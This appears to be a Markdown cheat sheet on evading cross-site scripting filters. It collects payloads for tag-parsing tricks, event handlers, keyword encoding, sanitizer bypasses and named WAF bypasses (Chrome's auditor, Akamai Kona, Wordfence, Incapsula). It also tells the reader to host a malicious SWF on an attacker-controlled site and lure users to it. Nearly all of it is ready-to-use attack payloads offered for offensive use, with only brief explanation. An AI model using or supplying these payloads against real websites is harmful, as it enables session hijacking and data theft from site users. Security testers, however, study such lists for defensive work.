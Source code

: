 # Filter Evasion

## Common Techniques

### Script tag

#### Weak tag parsing bypass

```
<ScRiPt>...</sCrIpT>
<ScRiPt>...    #unclosed tags
<script/[gibberish]>...<script>
<script [\n\r\t]>...</script>
<script [\x00 \x0D \x0A]>... </script [\x00 \x0D \x0A]>
<scr<script>ipt>...</scr<script>ipt>
```

#### Common alternative tags

Require use interaction

```
<a href="javascript:[code]">show</a>
<a href="data:text/html;base64,[base64 payload]">show</a>

<form action="javascript:[code]><button>Click me</button></form>
<form id="f1"></form><button form="x" formaction="javascript:[code]">Click me</button>

<object data="javascript:[code]">
<object data="text/html:<script>[code]</script>">
<object data="data:text/html;base64,[base64 payload]">
```

#### EvilCos

Can be downloaded from [here](https://github.com/evilcos/xss.swf).

Host the age on a site that you control and trick a user to navigate to it or trigger a HTTP request to the malicious URL.

```
<object data="[evil site]/xss.wfs">
<object data="[evil site]/xss.wfs" allowscriptaccess="always">
```

### Events

#### Common HTML 4

```
<body onload="[code]">
<input type="image" src="x" onerror="[code]">
<isindex onmouseover="[code]">
<form oninput="[code]"><input></form>
<textarea autofocu onfocus="[code]">
<input oncut="[code]">
```

#### Common HTML 5

```
<svg onload="[code]">
<keygen autofocus onfocus="[code]">
<video><source onerror="[code]">
<marquee onstart="[code]">
```

#### Filter Bypass

Bypass filter that match every word that starts with on by exploiting browser dynamisms

```
<svg/onload=...>
<svg///////onload=...>
<svg id="x";onload=...>
<svg id=x;onload=...>
<svg id=`x`onload=...>
```

Bypass filters by exploiting control characters not included in the /s regex selector

```
<svg onload%09=...>
<svg %09onload=...>
<svg %09onload%20=...>
<svg onload%09%20%28%2c%3b=...>
<svg onload%0b=...>
```

List of control characters commonly allowed after the equal sign or just before the event name to  use to spoof filters

```
%09 %0b %0c %20 %3b    #Internet Explorer
%09 %20 %28 %2c %3b    #Google Chrome
%2c %3b                #Safari
%09 %20 %28 %2c %3b    #Firefox
%09 %20 %2c %3b        #Opera
%09 %20 %28 %2c %3b    #Android
```

### Keywords

Some filters try to detect common words used in XSS attacks such as alert, document, xhr, cookie etc...

#### Bypass by encoding

URL encoding, Unicode and CSS formats can be used directly inside HTML pages without needing native tools. These techniques can be combined with each other to form even more complex payloads

```
alert
\u0061lert
&#x0061lert
&#97lert

#the encoding formats below require the input to be in a string
eval('\141lert')
eval('\x61lert')

#useless escapte characters
eval('\a\l\e\rt(\1\)')
```

#### Bypass by constructing strings

```
alert
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)    #Hex unicode encoding
atob("YWxkcnQ=")                           #Base64 paylad
17795081..toString(36)                     #Convert the number on the left to a base36 string
```

#### Alternatives function sinks

```
setTimeout
setInterval
Function
[].constructor.constructor("[code]")
```

### Sanification Bypass

#### Remove tags

```
<scr<script>ipt>...</script>    #script might check only first instance
<scr<iframe>ipt>...</script>    #recursive scripts might not start every iteration from the beginnig of the string
```

#### Escape quotes

```
eval(\'...\')            #the filter replaaces ' with \' so by adding \ we obtain \' --> \\'
String.fromCharCode(...) #generate string from sequence of unicode hex chars
unescape(/%78%u0073%73/.source)                  #decode escaped characters
decodeURI(/alert(%22...%22)/.source)             #decode URL escaped chars
decodeURIComponent(/alert(%22...%22)/.source)    #decode URL escaped chars
```

#### Escape parenthesis

By invoking the throw function it is possible to encode the parenthesis characters. Since the payload is in a string it is possible to use all the obfuscation techniques described in the Keywords section

```
<img src=x onerror="window.onerror=eval;throw='alert\x28\x29'"
```

## WAF Bypass

### Google Chrome Payloads

#### Google XSS Audit Bypass

```
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

#### Chrome < v60 beta XSS-Auditor Bypass

```
<script src="data:,alert(1)%250A-->
```

#### Other Google Audit Bypass Payloads

```
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

### Safari

```
<script>location.href;'javascript:alert%281%29'</script>
```

### Kona WAF (Akamai) Bypass&#xD;

```
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

### Wordfence&#x20;

```
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
```

### Incapsula WAF

```
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<img/src=q onerror='new Function`al\ert\`1\``'>
```
